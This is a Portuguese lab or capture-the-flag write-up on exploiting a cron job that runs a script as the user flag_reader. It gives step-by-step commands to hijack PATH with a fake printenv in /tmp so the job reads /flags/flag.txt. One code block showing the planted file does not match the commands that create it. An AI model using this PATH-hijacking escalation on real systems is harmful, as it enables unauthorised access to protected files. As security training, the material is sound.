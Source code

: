 ![](img/lab04/ps_aux_grep.png)

O executável `cron`, segundo o seu manual de referência (disponível através do comando `man cron`), é um *daemon* ou serviço que permite programar a execução atempada de tarefas.
Adicionalmente, o manual ainda nos fornece esta informação importante:

```
       /etc/cron.d/
              directory that contains system cronjobs stored for different users.
```

Verificando essa pasta, encontramos os seguintes ficheiros:

![](img/lab04/crond_ls.png)

O que nos interessa aqui são os conteúdos de `my_cron_script`:

```sh
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /home/flag_reader/last_log"
```

Segundo a [sintaxe de ficheiros crontab](https://wiki.archlinux.org/title/cron#Crontab_format), o serviço `cron`, a cada minuto, definirá a variável de ambiente `PATH` segundo o que consta acima e correrá `my_script.sh` **como o utilizador `flag_reader`** e direcionará o seu output para `last_log`.
E é aqui que se encontra a vulnerabilidade. 
Uma vez que `my_script.sh` é corrido sob o utilizador `flag_reader`, podemos alterar os centeúdos de `env` de tal modo que nos permita forçar uma ação a que apenas `flag_reader` tem permissões a fazer. Neste caso, a leitura do ficheiro `/flags/flag.txt`.

Tendo em conta o conteúdo de `my_script.sh`, podemos aproveitar o facto de que `printenv` não é chamado diretamente para fazer com que o nosso código seja corrido.

Faremos o *setup* do *exploit* em `/tmp` da seguinte forma:
1. Caso `env` não exista, corremos `touch env` para o criar. 
2. Corremos `chmod 666 env` para ter a certeza que o *script* pode escrever para este ficheiro.
3. Corremos `touch flag.txt && chmod 666 flag.txt` com om mesmo efeito.
4. Corremos `echo '#!/bin/bash' > printenv` seguido de `echo "cat /flags/flag.txt > /tmp/flag.txt" >> printenv`. Isto criará um ficheiro `printenv` com o seguinte conteúdo:

```sh
#!/bin/bash
echo "cat /flags/flag.txt > /tmp/flag.txt"
```

5. Corremos `chmod +x printenv` para torná-lo executável.
6. Corremos `echo PATH="/tmp:$PATH" > env` de modo a que quando o serviço correr o *script* sob o utilizador `flag_reader`, `/tmp` esteja no topo da variável de ambiente `PATH`.

Posto isto, basta apenas esperar que um minuto passe e verificamos que `flag.txt` agora conterá a *flag*.

![](img/lab04/flag.png)